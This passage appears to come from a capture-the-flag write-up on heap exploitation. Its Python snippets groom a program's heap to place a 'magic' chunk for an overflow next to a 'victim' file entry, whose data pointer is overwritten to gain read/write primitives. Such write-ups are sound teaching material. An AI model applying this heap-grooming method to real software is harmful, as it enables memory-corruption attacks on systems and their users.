 We continue the allocations until we find two chunks whose address difference is less than `file_max`.

```python
file_max_size = 65535

while not magic_chunk:
        for i in range(100):
                addr = malloc()
                chunks.append((addr, allocations_count))

        pos, padlen = find_min_diff()
        if pos and padlen <= file_max_size - 0x30:
            # magic_chunk will be used to overflow through victim
                magic_chunk =  {
                  'addr' : chunks[pos][0],
                  'allocs_needed' : chunks[pos][1]
        }
        # victim file entry whose data pointer we will overwrite
        # in order to get r/w prims
                victim =  {
                  'addr' : chunks[pos + 1][0],
                  'allocs_needed' : chunks[pos + 1][1]
        }

        break
```

Once we find the `magic` and `victim` chunks, we note down each of their addresses as well as the number of allocations needed for each one of them.

It's time to allocate the exact number of entries on the actual program until `magic` and `victim` are allocated . We use a helper function `make_file_entries` which creates empty file entries (each of those requires one allocation) in the heap. We do that in order to avoid unnecessary file content/data allocations which will result in a cleaner heap state.

```python
def make_file_entries(n):
    # Make file entries until |n| number of entries
    global entries

    for _ in range(entries, n):
        put('file_%d' % entries, 0, '')
```

At this point, the heap contains only file entries without a data pointer. Then, we call `put` and make a new file with content size `file_max` bytes.  This causes the allocation of a new `file_entry` structure with `magic` as its data pointer and finally the allocation of the long-awaited `magic` itself.

```python
# allocate enough files before the magic_chunk
make_file_entries(magic_chunk['allocs_needed'] - 2)
# allocate magic_chunk
put('magic', file_max_size, 'A' * file_max_size)
```
